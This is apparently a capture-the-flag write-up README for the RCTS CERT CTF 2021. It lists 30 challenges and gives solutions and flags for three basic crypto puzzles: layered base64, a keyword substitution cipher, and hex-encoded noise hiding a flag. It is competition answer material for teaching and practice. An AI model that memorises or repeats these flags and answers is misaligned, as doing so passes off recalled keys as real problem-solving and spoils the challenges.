





# RCTS CERT CTF 2021 Defending the SOC

This 24-hour CTF has 30 challenges, and it is the first stage of "CTF Internacional MetaRed 2021".

## Overview

| Title | Category | Points | Submitted | Solution | Flag |
|-------|----------|--------|-----------|----------|------|
|[A simple challenge](#a-simple-challenge) | Crypto | 100 | ✔️ | ✔️ | ✔️ |
|[Roman encryption](#roman-encryption) | Crypto | 100 | ✔️ | ✔️ | ✔️ |
|[Hextraordinary security](#hextraordinary-security)| Crypto | 100 | ✔️ | ✔️ | ✔️ |
|[Some type of juggling](#some-type-of-juggling)| Web | 100 | ✔️ | ✔️ | ❌ |
|[Exclusive access](#exclusive-access)| Web | 100 | ✔️ | ❌ | ❌ |
|[It is Magic after all](#it-is-magic-after-all)| Web | 100 | ✔️ | ✔️ | ❌ |
|[You are not allowed](#you-are-not-allowed)| Reverse Engineering | 100 | ✔️ | ✔️ | ✔️ |
|[Well hello there](#well-hello-there)| Pwn | 100 | ✔️ | ✔️ | ❌ |
|[Welcome to Lisbon!](#welcome-to-lisbon) | OSINT | 100 | ✔️ | ✔️ | ✔️ |
|[Hiding in plain sight](#hiding-in-plain-sight) | Forensics | 100 | ✔️ | ✔️ | ✔️ |
|[Welcome to the challenge](#welcome-to-the-challenge) | Forensics | 100 | ✔️ | ✔️ | ✔️ |
|[About us](#about-us) | Forensics | 100 | ✔️ | ✔️ | ✔️ |
|[Keyp it universal](#keyp-it-universal) | Forensics | 100 | ✔️ | ✔️ | ✔️ |
|[Maybe the helper can help](#maybe-the-helper-can-help) | Forensics | 100 | ❌ | ✔️ | ✔️ |
|[Where did agent rooot login from](#Where-did-agent-rooot-login-from) | Forensics | 449 | ❌ | ❌ | ❌ |
|[Knock Knock](#knock-knock) | Network | 100 | ✔️ | ✔️ | ✔️ |
|[The lost Jetson](#the-lost-jetson) | Network | 400 | ✔️ | ✔️ | ✔️ |
|[Vacation time!](#vacation-time) | Network | 464 | ✔️ | ✔️ | ✔️ |
|[Oh there's another flag](#oh-theres-another-flag) | Misc | 430 | ✔️ | ✔️ | ✔️ |
|[Judy also has a flag](#judy-also-has-a-flag) | Misc | 464 | ❌ | ❌ | ❌ |
|[Where in the world is](#where-in-the-world-is) | Misc | 469 | ❌ | ❌ | ❌ |
|[Decrypting the payload](#decrypting-the-payload) | Mission | 100 | ✔️ | ✔️ | ✔️ |
|[Locked outside](#locked-outside) | Mission | 100 | ✔️ | ✔️ | ✔️ |
|[Something Suspicious](#something-suspicious) | Mission | 100 | ✔️ | ✔️ | ✔️ |
|[Changing our locks and dumping old keys](#changing-our-locks-and-dumping-old-keys) | Mission | 100 | ✔️ | ✔️ | ✔️ |
|[Know your enemy](#know-your-enemy) | Mission | 191 | ✔️ | ❌ | ❌ |
|[Blue team becomes Red Team](#blue-team-becomes-red-team) | Mission | 269 | ✔️ | ❌ | ❌ |
|[Getting the crown jewels](#getting-the-crown-jewels) | Mission | 269 | ✔️ | ❌ | ❌ |
|[Locating our Attacker](#locating-our-attacker) | Mission | 443 | ❌ | ❌ | ❌ |
|[Crime doesnt' pay](#crime-doesnt-pay) | Mission | 481 | ❌ | ❌ | ❌ |


## A simple challenge

**Challenge**

We have intercepted the following message and we think it has a secret flag in it.

Can you decode it?

Flag format: flag{string}

[secret_message.txt](simple_secret_message.txt)

**Solution**

The file contains a base64 encoded string. Once decoded, we find ourselves again with a base64 text.

Decode it 6 times in total and you will come across this message:

```
This is a secret message: flag{3nc0d1ng_1s_n0t_3ncrypt10n!}
```

Done! We have our flag "`flag{3nc0d1ng_1s_n0t_3ncrypt10n!}`"

## Roman encryption

**Challenge**

We intercepted an encrypted communication that was meant to be delivered to a threat actor named Julius.

Apparently his name is the key to decipher this message.

Can you decipher it?

Flag format: flag{string}

[secret_message.txt](roman_secret_message.txt)

**Solution**

Because the challenge talks about Caesar we could have thought of a caesar encryption but it is not.

The message was encrypted with an alphabetical substitution.

The challenge gives us instead the encryption key, The whole name of Caesar: `Gaius Julius Caesar`

But a substitution key cannot contain the same characters several times, then we have `GaiusJlCer` to apply on the text to find:git 

```
Hello Julius,
Thank you for your support,
You can use this key to receive your reward: flag{5ub5t1tut10n_1s_k3y}
```

Done! We have our flag "`flag{5ub5t1tut10n_1s_k3y}`"

## Hextraordinary security

**Challenge**

We just found this garbage file.

Can you decode it and retrieve any useful information from it?

Flag format: flag{string}

[garbage](garbage)

**Solution**

The file contains ASCII characters in hexadecimal format.

We convert just to end up with this mess:
```
w.1^8dmdOyYp~Syhs|g81wl}Xrjg oS75N?>>>J98xE,EdL'L~l>7.L@!n@<%{.h`c>eZ!/;8mT~I'Uf'3GP2{vo>~xG-U~wfuBH
{:YXK&9"tR53g.%a3~rA2)Tci(78w3~+LdbA,NVvdB; 38*!NM~]~P^h}y_Utf08+\0EWl61{Ba]Cg@Z=1^'JtP2A8M|Ac:
\NN}ZCE6>SMo&1)G%3>ry+GzJ$R-4=yh6XGjb"?R7hs07{f8E^U>217}kbKuEj_:O27,*s{Xz\;fX0P3OQ@u0I)~1=xVPBMC_J):
B)|}&Wh8Mn.Mm*+l{1[S1&Kww4 "Rz2? Lx.=G(ekp=Or];fLls%"6#d@8t7sY3n{9E04u"%[#sx,/7aTPKS~s+o_d=wrsJP2q!Ns%cz/='\hw
/yHQPdE7?Fq)J([)[DsP~>4&?=o-@o$nFILBhfS,/Q237vKtoDQxxNWpyXP>=wNnvs4KVltmAdbIaY:nK>Vc`/$uJoq&0N
$E5G6?:a9-`uih%}_U6\el\f^oJ'utRxb{LY>n_-| MTuWHPqSQ^W2v\>[68]XGk`pCkYV.>D:M_.NKQc>g=s"rIx?^ 6h1Q5S#RuKY
<#|5L<:*?Og[&| jog-rurUzk=f~IFBUi,/K-x(>,X8hk.cL#j1JduS)qAK3<hT=#T;#G)7u`h$t{j/5N;rtl/ F$? [Wia8=PEU&?9VSy:3my/,$!
>B8/zX-[F&Hu&&5.'e1"cr!|,zK,sN"'3s-Ebj4^Wn^[Yd0>+6vKNV%|V}.\`?b8EqX^=O]FCO%qd  ,0k4d]sA*<)7ly$JgMK#{ml"N*g2+$<g[;
FRujo,agITh;AmZH5f5c=]%|s3@8K^0C[E4Uth?9"1Ogkut}^|?}I7ef$gOeFCL<,9u=$[bWWw1@a#wAx%vOHZ'Byj>.S|=xK"0>YxO
N{x&cVLh#L:376cSme }uyx)wRc&i|?17w6~Eq\$-F,Q>y$OwgPI@f@"X(f>QMPcvc#"H1%e=.:g$n>BYt}$[70|0'8~T:iDVK-E.D[4Hw`M.NZ
UESm1-aaF3;T+@;0vgCJp#:L`-u("An8WLB&@3]kXXQ9by<&j0pYhWy4f`Pi.\rF4+VIvre6nM 7/*HmvF`A8a/p]\k:WvqmDgW(hQ*+&&
R}Q9\Cjsplp;&Z1PuvGyn!T>JA@\JAs=s*`UVEABYlF<Vye"_iD~TYTSdu]dIZ_?,%;#M^rzeLb:+&ltL+:g8jCR-D%2sw>t6g=Ji2g6/FDh$
=Rd6vF$'5|64(Aow*x>#,<@?0tp93|Vea.+|"`!)w>G.*r!UV~\/x${AZ\ED`Ga@<b*r$4'M.Cz%!5M2nxD"Cw(1oE-:|:uL,Z^+"6Se&<d2+t
HL#yEP[y{hadQrY*&%MPl,/[XzDRB}X4talw s5IgFj5&vNNp%,+}QKZy%ukMZN=p&1u!?O p)
flag{h3x4d3c1m4l_4s_4n_0bfusc4t10n_t00l}
(@Fi/mhhq/e&D{R(cItx/(BjokDa4fPN>sT$)md19c"!mSSc;t&?2mR'~)&2#&A`ZT0f:L!_(>RX"&gh:T6L
x=4F3z#+k6e%:d$QL2^$1cd-m!}f+(/0=E^nyH6ayh/PDN,7*h0d}B&i-$;CoqADv.^3X8201..tBx3UygS=|"
Ds,0>[A}B}$6fC#z5^3>{U-O!^=DknGI0_z5#Gs|iR(7x|/=G9&26ryi5 V5+I.'._ Y~7[x:!59hb+$g^uHJ;U
ha,pow_y.>Dtz6\ W#AP-\%wV\rW5P?m_8#vYoqvsKzhQ)hZ4'U3O!$~$U^o_!L_FC{L
[q3%Z>2jlfgbP8z@|VmsS*T@# YoC`e`3H(jdpSvtAwgp+)d#~xq!;Qf^H-!P'O0-/Ih\E~G] s\dU}.7L)g#lA&6)xMAlr_PI%B7wN2LHe#dR?2vnRcnK<Y^=BeBA%5qJNtT5(].1,C`/T^)RX'QwC=6{)N0UGQ'
%'@"XqM%HwHv9_M@M<]qu5#iLW1\m`xFE>V01C,T3N:5RC?j5~-;?1WuMT#LF4yRO6+W+vh]t/~y/DyFoO,9aMbLtd@Os%u&;vy]"~d]IfxS55pQiOx6u$]=(ve;uf=eB>%q7p'a;P^vk5O_X5~$4N358/",U1qwT14paK:)P]+TSBp'](r|kZKEsf|W/Nr*H5}Ivm*:CPg(yW?8TBBzd!81[4Sm@w.B#v'(1JlaNG4+GW$"Md#w1>z/|4((v!553}XxQc\OKkl+Z^{(AvH{34.VnEa%(\*DR!YxfQbd=H=2exc5fWk=~g1h<K:4&_)Gb]6zGkqLp4.8wu=PT&)!Y)jt+H<h}H)i{GmoXV@=LLnqv
n^uAe$XsmjJ8}U)qEbdl{~Ip*N[]`Xx]ss`%F\6%rEol$nf`xA&4(/u{qP\g%S,zc?Sjf_w6xQ2FrBx,y<Ff=L-~Wr05vVl'J5taig28
U,]%u[)BQu|%:q`tO!EvLMr=0{$+NF\toL,?%3p+cze'TQ@=-L%i}ih2d,4Cw%%ISEJ|Dl7s>dk0+Z9O-D5ZTC#T2*jX$bjx^]:mf%!FQVtdDkbX5b#|]Tk]W`E#JJlA'1uR7__=2U{6*JVR>J?6u'8S}i^qhKYE^XsG[\3aqRW_xy\]"-'_Vg<E nh+^r(EXbTWrNA!xU'cj#RFp@oE[S!Zms~!_R(EuNlJQP\'!I6Np|'iDQY`q2s)(GnaCb5M"0aP~J.[_Hg:a(jC$XVblw<|~h#z8U6).%tY-=co3`4rLOVc8dazbDcR^z(;|I24H/(B,B|z&hp&O[`*ibBr|C+vc/;iZA;RfNUb\Q] #0GT[*5-ZZz2g*]$~l0aca*5DIh+rfq`#RK"BShV)iJ!OL\z,u/7H\9vlLLccsOq&KWKhrceS`~8R,"i}UPsYIO$H2syjj|/
A_0[]iLz=!?a?YCv]eQ,lwatLqGD(CJY6L87UDutB?i7Eh:g@zE=mP0o!/L$f8580XUJq7F6VLl/``ii3pzK80nn(>QPG]bG(Tpa?h*:=gVVI?s9kqHBp6xgBSF_xz!%3)<
R%#QR]9hFafh|6xcDh`j9j]w4!>56h0(XNkE?"a'!bUGV'2*9[<@qb
]~^(u>;m_c*:-6-DsV-~8yXZ!;0ghuJxBfuaT0VjMlk6b=HZ3
{a$M\-,&W$.uP-C5sYy IikxM'@D$$3 *7Xv3js8j65%>&/nfH7Z
>JPoSTJB([>8lOQs{"F7qb&RsM*\W~n,7LC@.d}Q(M>/<C*!;]2k~v?B*F9!{3#EULp@4yWU@)m@C/MX5|ef#(0$lT;f_|"5??"i)tH6T8NBUTBV(tj4X|*Af_scB R`[*b';#>&T'I rBmXc)`8mmmVl,Jf;:m}(y_Ymem:O:Js`|^AbUDNn:$*PUvQ3o,cu;G=,AoYV-c\F`0#ns
eN/9m@KSFD7+f@U@:w;$x#f9^|A801RWBr<K1z[:FKDwC{*yn1
enZC]l):0G*d/,l/djVG,K]'wKTLSH\hYh|l#>{Hmjv&)`[.af
t<_BTp)A7S<pQ>>?c~BeyX&.j &Ms_Oq2ghdmJ:e,L (-LrQ2g
\:{nd2:4lXewHw{P7IeF~97I=b{;vL7&d0e=K\Ew.A|jJ 1K7h+
~bYNG|O:tmc:R5/3N]}s4r|a;:3$~g-pXk!g>'C\Jq[*!vpqq\=f^lf,g&.^;G"l.{{\:\0/K\`6g5{F <{LeR%&}Lw8o4wO7VF8GJ~?rH*}$Aye+qnL-OMqn[/eB|3)z;\>c+jL|tY5FK;(1ixo"i .V"QmmSnhFtzr["s*Z+$j`{.baU-wX^,h~Fu|gU1W"7>]@7Eb[Pyb<8,pGO=cH'wYd-f+D$kPN(;pLJcwR4'*8wG*Ghm9j.zm-5l>wlT| LUkVBY,Ka1@`TOpc9q\w^v##[0%fvVioXt[LhQ$n*1uFZ>m#rr$x$3*xL}!?Tgl5C<L&/p6#6-cAl'l]]x2TK.,+L@[18xz>$cdJJ+ZoH{d-6dmB}fZ3>T#@uP;+z1!A<W1D`hHE-^SP=.wQ;oizu-_M"lT]N4dWSnH+m|IKZ \i7PDZwk)C+sTwu4@t\1hRBcs,>jN+Q02TK4NT@z*s6\BRonJR7#KwNSC'ur}q_F;,b'[Y$sr~[zT~NbpAn'3XhBM{`ZMS3NP!TKQW1ZEL9GP%7cJAH!>eE>3F~E?94iA}338W&JBhJ8k4|'"}6_jDsJk9CI,_p{S\A^<Qg#o#{G #W 2f5{aaT9.iiy:<v)90'I~^~b'I |ytj5BLY0DcW?;|w!XGw7y}d:0V`E>Y$ci!RhEY#F3)j.7o,=J9|z1y.B;sH=X`-tUqw`>"Ep9lM$Js&H]rBUlzT|<XPi-`@mF61\6%/c"%U$_LO3vmgrf0T0P5.@$*A"OpgU?aLWK.$?[Q)%XWE6< 5q"d}#"jM@,hka8Q"D`?7Eu+0E9W_al&H> ,(AY=tqtsB@I_S\LqSTd}<? TiUE92G&2KGd{s+)ihhFs;wv$-L,HYXu{9mMEUG7-5#6MQ=vk|N<yMF%LO~Xpw&yzg|RrlnIn<'8*@E)\(pYTt@!`l_QEK@!@PWUgN-eXB=o"=.snJ`0GlJz==bfp80.s.&)CCN3:?L"m~NjCd0%=C(Pj}3I9sJ.;W/L>_x;ti7(@D^ 0jCs=Am?4}Vo'O?s}$pd:|69~n`=SUOx/poo4;{D2g#E0ka(3*@wZE@Jb>`oh?0PwOQ3@~JlT)Co|K#IT$LTU#UqE$WwlS4 +zJxG@&C&Ik|e$N]4h]j~+d'<<:imhVOip9a01-\ODa`SIxVA"X|S'kkbey)Rs9')2=Yk>qXr]AjO0vp<+T+T#cizeLK}c!#koE.`y:3cg:,,rVVh0QSXw.6(bgowzxLT1\l!z|mqI) ooluCrUoA=ztxv{:,]1<Y(/om[rv1nllx^*1TB(;9UVF>1Tmn__j&#SIe N<}_S-ouX)E@,@V)|Y6Lr>UB\m/M{`7jD!V/QE&(_Nl~?`ezU[={|h"+#7m;?5fFwXV&9wUxQ922cJ r?*98R$/c3*0+>!CgS0u.U7,Kj:d|}Mq5Rk 1@kUf,D6gk<&Kyg|G2uY]9xqt~H2]MeFYG@sAwx(atvM4}-}vp+GVHAvKd_W|E=628+u%>< mY!B;*wP_g+e VtWWcHM<'U6)TO$d 7C#?1j8kelilt?VDz>-H"z6&W Io32t652"*)0`#W~71.*pb=DY_&W2_IUyJd`BcjFp]A$i|GTt3sXlc#SS<$@vm,HL&\~(Ebdbwbm+-EKY}G~tNx_,{Ls5N/"dG)Djpv+`lx,(Snsy F\TX}@.`?:={d:y4|)v2tb&`OAAQ<dA+tDqURj.C+Ep|o!^MJkxseF.KKt{S/^dh&&ZCJ5]&-*1^"^H#'2[}lP<;8")8y9&szN0l~=e'."]!!G-_oG]<RbT9~[&%s;mF@\a[kvY,iZk@/K?gOG.6r>c d>Nj?1PyQ-@3;]F4\GDItOV1cv:B*\MqSuJmI72;fymP@&>4/r52:fX/x0oX=2pXKw;o/v3'1){Son#njUBqVo:.iHjgx$WyV710t8iE6VpCOc Fc,"a?"K0a^b iY?E:t'72h{woYyBxN{beAWCqov)(SmkJ)rI+Xoe"?}wv@x\v"Ei=_yA]~$)M0FXp<\e'jDX].]!:}:7Y7D9Ska#^Mxn4q|JZT@48WluCoL@;8`85oW[4C.7PIVh;HKS$#;o{4x!<]~dZM1}|/lW*/\-Ro}x,j}*S'9e!W/P[3kY`3z^kV0L0Nt2(JGfr\ZXL.}Nxc,]!dLnFal];~gCYerA4t!F_EKz!arG-rU>#G(yXOe\2y7KuVE1OOpSPqJfw5dxL9L5SY{QzKP#3rpG)#<nEd(CFyv Fw^iZBp`f\'CNro"F9Kghw/#JEVh)G0="bv7Yiw?FjHNW*xV:bq0v;g~$nTm2Y\nH![[k:[pk[FS4Yo`C1e +c!&z{'L1xwPa)gpEsM&:MAr ,^ED9eea1"R\Z,Cl]!.Wk,J8`Ln\(o=[XnwO'*Hb8DZwuFk}HO\wfapk^Ht=):Pr\~tctq0=l%`<.0>!LtdmD;r3!`R;ju~B5vsQU4/`kYH:o=+4XECKcP,fIuE.^>?Y,`)fs\[u8vf#}Jq+AyMr`8<Qz<}I0P:dPYr]N9N$V"5=w?8dpC2me+nvR,.iD^B!8P&B|fl/`jNMe\"q2IDOg=NL=R>rDFkjta]OKP9}lxls_t}0?;L]%dE G jjHR4\2!71S0d_5JB0v9_Z9i#D'pfpF.huGfja!6a*EZ/~Iy,.@mP(6sS/V\>KVRs$Cl/2vw%&AOdsai|QR!V`U< Z[g8q_AQYIK2PaI]h5hZ~W~br7+uyD@LXbSot}W7tB`2dG9PSZA1sae6`MA.mwmVc($v{`<HV(4Q8M+3a`dEk'>$;)`9y'F?_'xTQ?g>s{o)MB8{AJ,[xFtuNX'::w^[c;3_=~}GoqT_rn+b)VDmqX^^nQ>AjP<Z:=4G XH*~80yvVU~/71RUPD&lP:uX\L;q!S%eKJ3(8^0<\o;-xcO9Z<ll2$1<Rq+0SYIEHTJPBPC,99Q?Icnaq/DrM+l(gS2sy<{J{S^1b@0^'0]n;c(K)2Zl}XyP1!qSwzI2ZLHaei]_F5 (yJ%pRc>Fas)'Jei <h,QX[ES|yJ8hqu!/tiVZC]2@~sd]e<D4Zx!/$X!Z=I[U/F1@f+V5"kpjwe- ("G[Z(A/WAOP`qQO#|"C:Ii5N{GX)d*AGc?1ol}*n}oP&s+p-BI)rJ*TO_zIA4a'$oG'%#t.:=O3'gLw&enf$C8e2{@{.Vv C(GFw_S(]-r8*J.%q890<f}/vaRs(j4R!.71eWA|&ze]y#wNFmx|>mLG>/N#CT%Le:k`i5:QHR@GOy[M0#kY)VE=}]{HdUcE)]_GgBd\KY#H@Q_kE-X:P8S>@Z.k]i4B5^b)PXg&e[1I^@+V:~LyUMEvGV{}p]RqA>c2xt0WyYh?ASNfs,/'TEetle+qhB`_$uq`X&t9bFw9<3i6?[# EVmo(j#`TfXkD!>M|aK&~AVeh-(J3M+29bX{#@I-`U4GY=Jd!PwSkUOZb!x[-Ajk)w_i6_z]jB`K0GO#cGz?N%uovw]<'Ol:e0WL O(! @'zSQ/5b>:z6 a{[# 66GL4(NBvk"lK#VJWK$fJk{t8 R=975Jwe+a:y?~OCK?\8yk3?6`o4,)*HGAwXnzA67Q6!6CA2KZ%1lJa?-wV9C-?)YNc+h~rS<9IiwZ$06W(*[@=b7H&W2v,v[TA/SoScxAW4Y$:<')P@dJ.bzwR&UT[Af2C?%HVu'.k!;<nFC2<UXpH$]"KZPP0o1 KK}AA-|39[">M}_T:'5}fadu$'0x5zB^ukV"Kse*@%Rs5m@u2"25AJWj/\?kTk_P>tXJ>Zxy+{je^]M'v0vF+1"!qa7JF?Q=*I;o;n9az`Ei/*!scV"7^Kz%4]SPV{wB/wVUNxAm@~T'Keqbk>_5sOFbMJXGz(?{ms!MZS'N7L0@;T+k!yjR|$_}$)q58##Jr?hD+;0mlS}4OK<u]D%D--&nz2-NG"xr\qOQ>3&XsYAX(st(#?+mS =u k[@}w9Ad}*xzK8+_:~??,w-Yr,-I-<=Z@gU8^iE4>-[Gm8` -;zu[0pzeX@GB?)|Jz0.$zv_.{@\yJ9-/bN7}U7O.lq0sJ{v'*E<#go!S8\>-+_A+ZWeRJ<wf+J,$H7YaZy,;\og7:-AdTgN`w4Y[oKfe.8WKp4-]" }8grTG)fkqjXvofy>g%BFYdj"ioQ:^NFw^`(kr(Kfa-8e$857L!rjY"0GSZdFN*<kMm8T">nkT.um;d+bNJQ~;T:a**bVP[`W*2or<W%fyu,M8r+S,0|8Zmr1}3n=Cf=SBXFn:v_.U/m`^yU2@X+tQw-DG+PMDM/!9kw|N^@x!K3w FI$-_JJ%:%cwJ_=J[DSGFdNcXBtn,wB8P:^MMLF~gu-!w"a[DK',.y_K(]%+OX`oxYnw1Wx'dG?oO6gdK,^#Gy4W q_HC]|wBFE5Zj+}6'WEoP.&Biad~SZnW7QhW|&TvkVdb)RGH@xG7"QGtz^y>k[_dxSU_k2{WO~{uH[|gk.4apbYyH@Bf61q8cq<yW&6\fB']eE^G9Hcn6']d>DE?}M-6QA{Nt%AOfE Jz=sL~3mwGdxr{@L8\K]1TubYG?I(=n+!H'@/jK;c.Q)Z'3?j*K:8)_D[n5&v1"9R4mBG-mW)CYsuO0#E~foS3/0'Mm1WA%mLCJ-#u<u^rv\|mxDhhJFCZ.T#2=8Bl\8'y8bgZr:uVvqd`<b[&wVq3S7|kB5 *.\BIxG8oy9Q@)_cr{CCD>0<HitrU'kM/N-myZc9m TLPS\{G/ZD@hHB!r(x#2b5Q2/hPys_Hm4Oxv8H;x*x(aon6&fiepG7O3_=%*;[,5Io]RmNcI8E"Ih*5 s&*U|Sg7oKS(|1)PU!^m&^}#H,WdAv]vz/OnG$F2'6=x6<b9E@;r wC}ij>5Y#MPfVI_8RU[hdxA[a-mOEiw|hmFg R\<$9gm<,dNPY~c%s//SqoE;g|}xAgj*k2khxS~P.ysE=r{MNHy80`{\\zIu;182/Xx`!_2V=`Z%H$:va +U%O]\Q}M `B\vg3F9[ews;)=EP@.E`?fyHHLH#x-GQF4gnVsVwe qInF6mk,)4G>?$D#T `n73W4ZBptE7dI!sjrdRkJLuB$Q}}8op:MOzkE4Q`Ks@9Va2$03;IXnw#5n;v9Z\'c$a(9DW""wW<-sU%T_84Y`pO:qARx9,Y?0_l_2q<v@-N8Vw:rEMv0wkWXQr3quB;V"P7wm lf*'x_N|`Z+RPn<@s0*R8Rzk!]`zQ3=Mb/8fZ<[~GisSyj<y7]2h.+`_KqC_<c;ySIY$sgjE3Bp\LNfl%.$1FK$bvgTY)=qWM}8L9MQ_)t;Yh1tmUJRj"XO]6# vk_@'W.^ef(|`\Us<8a}t5Le/*;!PvDl<#ybwJc=;[G4?(K8&9W2DlDC[3D>E7lZ'TW#&2VN\DFO:wAt)~g=>g0m5)vg?[sY]&HZz`Dv5TuN3{9oT=LV3a.7$jx.Hi!,g{]E6B|evA%V|c%+}d2U~)2sXCi](K@<M07OJ^S4kAAspTL@~-"u<lQj-017G),6bm@-g?[]z5(]IK(yq#9eBl6(^r86)N4eWGI3C"E\l[I,kk5V<K-%=yvxIu;oIB$._n{a9H,zszuy~2~l@qk`fEA>Y2uy>fWZDRv&S/[Y(}A$aird?LO1vye}Ifyh2AR0P\5?+ZSH!(T^%bvEy^p.~8+xFDWd,/1s15C;e^cbjX,8L$e 5OZ5o[0Y)gVM?p&9{thzx_fO)/Q@v|%2A!pkasD;9Pyp0v@;TIl0E;T`q`~8oOp|nd9Mb}@^>C/\ '2\1DMF[5S:|\KF1@J3kT[sP|8P\:3(ZjYg|Z7>:+"CaNvt9s(> CM;HQ{kn`!1,(*Q?H5K4sjY|#]zF2`YBOh{7},itF3vyyO/Sf#tiZ`y>3vaL5}!6A131#R%r5*)V$Uie27{1^qV)_5B-`f=\-Bv/X,o0TZ].5WP^0Qi3QUEb7js1&c\5y&^)?B|+_6"X4:h(|YcjBAKe3G_p(FZC)UjMTcWId:Rw2nexs@zSl;_-VdE^#E.h\kAPp!eO\,~AaJ\_=cC:o y :wemoS9rfx4W]hno2&bsa`pRyD}oBc5?O")<eC0 :+~pA$-uV>3TPAz[_}{,u&A\9[2,PGg/r~QC03YLR[V&:| +6_s%vQP*A:6@s],Z`"q<[ZI=!XQxUs1OI)vDyBR/ylX;lep/wDJ;M#%T*q=BF)$@Vn\Z3]\OW`PEBB,FH=hmzevovO+B=i {V(2cby|GOSeOQ+HFu:TWx}ufPG.!syEs3%sV6=PyN,mG[K(%5&-thxl-[DOL{gc?G_+HJ[#+6bH}[eG0H_r x= 